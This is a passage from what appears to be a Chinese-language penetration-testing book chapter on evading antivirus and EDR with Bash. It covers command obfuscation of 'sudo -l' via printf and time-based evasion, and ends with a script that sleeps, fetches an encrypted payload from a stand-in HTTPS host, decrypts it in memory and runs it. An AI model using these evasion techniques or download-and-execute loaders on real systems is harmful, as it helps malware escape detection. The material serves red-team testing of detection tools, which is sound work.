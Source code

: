 我们还可以使用 ASCII 十进制值，如这里所示：

```
 $ $(printf "\x$(printf '%x' 115)\x$(printf '%x' 117)\x$(printf '%x' 100)\x$(printf '%x' 111)") $(printf "\x$(printf '%x' 45)\x$(printf '%x' 108)")
```

这些方法中的每一种以不同的方式混淆`sudo -l`命令。这些技术可以结合使用或嵌套起来，以创造出更复杂的混淆。然而，重要的是要注意，现代安全解决方案通常能够检测到这些混淆尝试。这些方法在面对简单的模式匹配时更为有效，也被称为**基于签名的` `检测系统**。

在针对 EDR 系统测试这些混淆技术时，请观察每种方法如何影响检测率。一些 EDR 解决方案可能会检测到某些混淆技术，而忽略其他技术。这些信息对于理解被测试 EDR 系统的能力和局限性非常有价值。

我们将在下一节尝试更高级的技术。

# 使用 Bash 的高级规避策略

虽然基本的混淆技术可以有效，但为了绕过高级安全措施，通常需要更复杂的规避策略。本节将探讨使用 Bash 的高级规避方法。

**基于时间的规避**涉及根据特定的时间条件执行代码，使得安全解决方案更难检测到恶意活动。例如，我已经多次通过在脚本或可执行文件中对载荷进行编码或加密，并插入代码让它在解码或解密并运行载荷之前睡眠一段时间，从而绕过 AV。AV 和 EDR 供应商不想因为占用宝贵的系统资源或让系统变慢而使客户不满。因此，有时只需要简单的暂停几分钟，再执行恶意活动，就足够了。

提示

AV 和 EDR 供应商已经开始意识到简单的睡眠语句的使用。通常需要使用比调用`sleep()`函数更复杂的技术，例如在检查经过了多少时间之前执行一些随机任务。

以下脚本示例避免使用 sleep 语句，而是通过执行无害活动和检查以确保时间在凌晨 1 点到 3 点之间，才执行有效载荷。它可以在本章的 GitHub 仓库中找到，文件名为 `ch14_sleep_1.sh`：

```
 #!/usr/bin/env bash
current_hour=$(date +%H)
if [ $current_hour -ge 1 ] && [ $current_hour -lt 3 ]; then
    # Execute payload only between 1 AM and 3 AM
    echo "Executing payload..." # Add your payload here
else
    # Perform benign activity
    echo "System check completed." fi
```

或者，你可以使用 `sleep 600` 命令在执行有效载荷之前让程序休眠 10 分钟。此外，你还可以通过从 HTTPS URL 获取有效载荷并在 sleep 语句后解码或解密它，来使检测变得更加困难，而不是将其存储在脚本中。大多数防病毒系统最初会扫描文件并找不到恶意内容的证据，然后不会检测到任何恶意活动，最终停止监控该文件。

在 EDR 环境下，如果检测到文件、进程或网络签名，简单的 sleep 语句可能不足以避开检测。在这种情况下，你可以通过将活动分散到多个命令或步骤中，并在每个步骤之间插入时间，来避免检测。在特定时间范围内发生的多个攻击链动作可能会触发高风险或严重警报。然而，如果在动作之间插入足够的时间，你可能能够避开检测，或者每个步骤可能会以较低的严重性警报，避免被防御者注意。

脚本已被修改，在每个步骤之间插入了时间。以下脚本可以在本章的 GitHub 仓库中找到，文件名为 `ch14_sleep_2.sh`：

```
 #!/usr/bin/env bash
sleep 600
# URL of the encrypted payload
PAYLOAD_URL="https://example.com/encrypted_payload.bin"
# Encryption key (in hexadecimal format)
KEY="5ebe2294ecd0e0f08eab7690d2a6ee69"
# Retrieve the encrypted payload and decrypt it in memory
decrypted_payload=$(curl -s "$PAYLOAD_URL" | openssl enc -aes-256-cbc -d -K "$KEY" -iv 0000000000000000 | base64)
sleep 7200
# Execute the decrypted payload from memory
bash <(echo "$decrypted_payload" | base64 -d)
```
